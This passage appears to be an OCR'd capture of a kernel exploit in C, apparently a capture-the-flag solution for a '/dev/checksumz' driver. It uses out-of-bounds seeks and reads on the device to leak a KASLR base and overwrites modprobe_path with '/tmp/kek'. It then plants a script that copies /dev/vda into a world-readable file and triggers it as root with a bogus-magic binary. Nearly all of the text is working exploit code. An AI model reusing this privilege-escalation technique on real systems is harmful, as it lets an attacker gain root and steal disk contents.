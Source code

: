 ```c
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(-): 0x%llx\n", i);
            content_addr = leak_name + i;
            break;
        }
    }

    printf("{+} buffer->content: 0x%8lx\n", content_addr);
    uint64_t cpu_entry_area = 0xfffffe0000000004;
    // read cpu_entry_area
    lseek(fd, (off_t)(cpu_entry_area - content_addr), SEEK_SET);
    uint64_t kaslr_leak = 0;
    read(fd, &kaslr_leak, 8);

    printf("{+} KASLR leak: 0x%08llx\n", kaslr_leak);
    uint64_t kaslr_base = kaslr_leak - 0x1008e00;
    printf("{+} KASLR base: 0x%08llx\n", kaslr_base);
    relative_addr = content_addr;

    return kaslr_base;
};

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    int fd = open("/dev/checksumz", O_RDWR);
    uint64_t KASLR = try_break_kaslr(fd);
    if (KASLR == -1 || ((KASLR & 0xfffff) != 0)) {
        puts("kaslr invalid!");
        return 0;
    }
    uint64_t modeprobe = KASLR + 0x1b3f100;

    int trig_fd = open("/tmp/kek", O_RDWR | O_CREAT);
    write(trig_fd, "#!/bin/sh\ncat /dev/vda>/f\nchmod 777 f\n", 39);
    close(trig_fd);
    system("chmod 777 /tmp/kek");

    printf("{+} modeprobe_path: 0x%08llx\n", modeprobe);
    lseek(fd, (off_t)(modeprobe - relative_addr), SEEK_SET);
    write(fd, "/tmp/kek", 12);
    
    trig_fd = open("pek", O_RDWR | O_CREAT);
    write(trig_fd, "\xde\xad\xbe\xef", 4);
    close(trig_fd);

    system("chmod 777 ./pek; ./pek;");
}
```
api.h
```c
#ifndef CHECKSUMZ_API_H
```